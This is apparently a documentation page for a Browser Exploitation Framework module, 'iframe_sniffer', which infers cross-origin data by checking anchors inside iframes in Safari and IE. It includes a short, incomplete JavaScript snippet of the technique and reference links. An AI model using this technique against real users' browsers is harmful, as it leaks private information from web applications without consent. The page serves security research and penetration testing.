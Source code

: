## Summary

* **Objective**: Sniff data from other origins via iframes
* **Authors**: Bart Leppens
* **Browsers**: Safari, IE

* [Code](https://github.com/beefproject/beef/tree/master/modules/misc/iframe_sniffer)

## Internal Working

By using anchors (#) to request cross origin resources in an iframe, it can leak information based on the presence and absense of elements.

Content can't be directly read with this technique, but data can be inferred from web applications.


```js

      if (typeof LeakyFrame === 'function') {
          new LeakyFrame(inputURL,
            function(frame){
              //check each anchor
              for (var anchor = 0; anchor < arrayOfAnchorsToCheck.length; anchor++){
                if (frame.checkID(arrayOfAnchorsToCheck[anchor])){
                  resultList.push('Exists');
                }
                else{
                  resultList.push('Does not exist');
                }
              }
              frame.remove();

```


## References

https://www.contextis.com/en/blog/framesniffing-against-sharepoint-and-linkedin

(old link, maybe check it on archive.org):
http://www.contextis.co.uk/research/blog/framesniffing/


## Feedback


